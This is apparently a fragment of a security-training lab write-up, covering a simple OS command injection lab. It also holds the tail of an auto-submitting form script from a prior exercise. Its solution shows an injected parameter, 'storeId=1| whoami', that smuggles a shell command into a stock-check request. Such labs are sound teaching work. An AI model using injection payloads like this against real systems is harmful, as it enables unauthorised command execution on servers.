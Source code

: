 ```html=
        document.forms[0].submit();
</script>
```

#### POST 


# OS command injection
## Lab: OS command injection, simple case
![image](https://hackmd.io/_uploads/SJluK8pzYp.png)

### Solution
![image](https://hackmd.io/_uploads/HyiCv6MKa.png)
**(Click "Check stock")**
![image](https://hackmd.io/_uploads/SktpwTGYT.png)
> productId=3&storeId=1| whoami

### Solved
![image](https://hackmd.io/_uploads/r19rOpGYT.png)
![image](https://hackmd.io/_uploads/rJGHuTzKT.png)

![image](https://hackmd.io/_uploads/rkC_d6Mt6.png)

